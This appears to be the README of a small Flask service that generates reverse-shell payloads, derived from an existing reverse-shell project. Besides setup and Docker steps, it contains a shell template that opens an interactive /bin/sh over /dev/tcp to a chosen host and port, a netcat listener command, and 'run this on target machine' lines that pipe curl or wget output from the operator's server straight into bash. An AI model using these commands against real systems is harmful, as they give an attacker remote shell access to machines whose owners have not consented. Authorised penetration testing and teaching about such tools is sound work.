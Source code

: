 # shells
shells, based on [reverse-shell](https://github.com/lukechilds/reverse-shell).

## run
setup python environment
```bash
pipenv install
```

virtual environment and run
```bash
pipenv shell
flask run --port 8080 --host 0.0.0.0
```

or just run this
```
pipenv run flask run --port 8080 --host 0.0.0.0
```

## new command
add new command in `shells.template` specify the $host and $port
```
if command -v sh > /dev/null 2>&1; then 
	/bin/sh -i >& /dev/tcp/$host/$port 0>&1
	exit;
fi
```

# docker
build the image
```
docker build -t shells .
```
run the docker container
```
docker run -p 8000:8000 shells
```
runtime details
```
docker ps
```

# give me a shell
Listen with netcat:
```
nc -lvp 1338
```

run this on target machine:
```
wget -qO- http://mi-ip-host:port/127.0.0.1:1338 | bash

curl http://mi-ip-host:port/127.0.0.1:1338 | bash
```
